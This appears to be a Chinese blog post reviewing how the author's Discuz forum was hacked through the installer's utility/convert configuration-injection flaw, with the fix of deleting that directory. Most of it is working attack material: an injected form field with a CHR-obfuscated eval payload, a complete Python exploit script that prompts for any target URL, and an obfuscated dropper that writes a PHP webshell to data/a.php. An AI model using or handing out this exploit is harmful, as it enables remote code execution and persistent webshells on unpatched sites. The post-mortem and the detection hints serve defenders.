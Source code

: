 ```yaml
---
title: 140126 discuz站点被黑,复盘
layout: post
permalink: /2719.html
categories:
  - Code
tags:
  - discuz
  - utility
  - 漏洞
---
```

手里一个站点被黑了 也就是大概2013-12-20号左右，乌云爆了一个关于discuz安装包中自带升级转化工具配置未过滤得漏洞，当时没有注意，并不认为自己会犯这样的错。 事实狠狠的给了我一个巴掌。在这里我不得不说discuz,360safe,anquan这类的网站实时性很差。 discuz utility 漏洞修复 删除 utility目录即可。 具体漏洞演示： 访问：www.80aj.com/utility/convert/index.php 修改表单 新增输入项 <input type="text" name="newconfig[aaa eval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83). CHR(84).CHR(91).CHR(99).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]" size="40" value="localhost" /> discuz漏洞 直接黑客利用Python代码: #coding=utf-8 #Nx4dm1n 2013-12 import httplib, urllib def dzconvertexp(url,vulfile):     allvulfile=vulfile+'convert/index.php'     target='http://'+url+vulfile     page=urllib.urlopen(target)     html=page.read()     httpresponse=page.getcode()     if httpresponse==200:         httpClient = None         try:             params ='a=config&source=d7.2\_x2.0&submit=yes&newconfig%5Bsource%5D%5Bdbhost%5D=localhost&newconfig%5Baaa%0D%0A%0D%0Aeval%28CHR%28101%29.CHR%28118%29.CHR%2897%29.CHR%28108%29.CHR%2840%29.CHR%2834%29.CHR%2836%29.CHR%2895%29.CHR%2880%29.CHR%2879%29.CHR%2883%29.CHR%2884%29.CHR%2891%29.CHR%2899%29.CHR%2893%29.CHR%2859%29.CHR%2834%29.CHR%2841%29.CHR%2859%29%29%3B%2F%2F%5D=localhost'             print params             headers = {"Content-type": "application/x-www-form-urlencoded", "Accept": "text/html"}               httpClient = httplib.HTTPConnection(url, 80, timeout=10)             httpClient.request("POST",allvulfile, params, headers)             response = httpClient.getresponse()             print response.getheaders()         except Exception, e:             print e         finally:             if httpClient:                 httpClient.close()     else:         print 'no'   #输入目标url和convert的目录，常见的是/utility/目录，或者就直接是在根目录下 url=raw\_input('Input url(No http):') dirm=raw\_input('Input the convert directory(ex:/utility/):') dzconvertexp(url,dirm); //黑客代码 chr(102).chr(112).chr(117).chr(116).chr(115).chr(40).chr(102).chr(111).chr(112).chr(101).chr(110).chr(40).chr(39).chr(100).chr(97).chr(116).chr(97).chr(47).chr(97).chr(46).chr(112).chr(104).chr(112).chr(39).chr(44).chr(39).chr(119).chr(39).chr(41).chr(44).chr(39).chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(99).chr(109).chr(100).chr(93).chr(41).chr(63).chr(62).chr(39).chr(41).chr(59); //转换后的值 fputs(fopen('data/a.php','w'),'<?php eval($\_POST[cmd])?>'); //其中几个数值是一句话木马必备的 查杀的时候需要分开 chr(101); chr(118); chr(97); chr(108); chr(69); chr(86); chr(65); chr(76); 资料参考： http://www.myhack58.com/Article/html/3/62/2013/41505.htm http://www.wooyun.org/bugs/wooyun-2010-014681 http://www.nxadmin.com/penetration/1224.html